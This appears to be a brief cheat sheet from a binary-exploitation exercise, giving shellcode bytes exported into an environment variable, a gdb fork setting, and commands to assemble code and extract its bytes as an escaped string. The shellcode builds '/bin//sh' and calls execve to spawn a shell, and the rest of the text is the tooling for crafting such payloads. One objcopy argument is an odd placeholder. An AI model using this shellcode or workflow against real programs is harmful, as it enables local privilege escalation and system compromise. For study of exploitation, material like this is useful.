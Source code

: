 
export SHELLCODE=$(python -c 'print "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"')

gdb: set follow-fork-mode child


as --32 code.asm
objcopy -O binary --only-section=.text a.out "< optionol output >"
xxd -p a.out | sed -E 's/([0-9a-z]{2})/\\x\1/g'
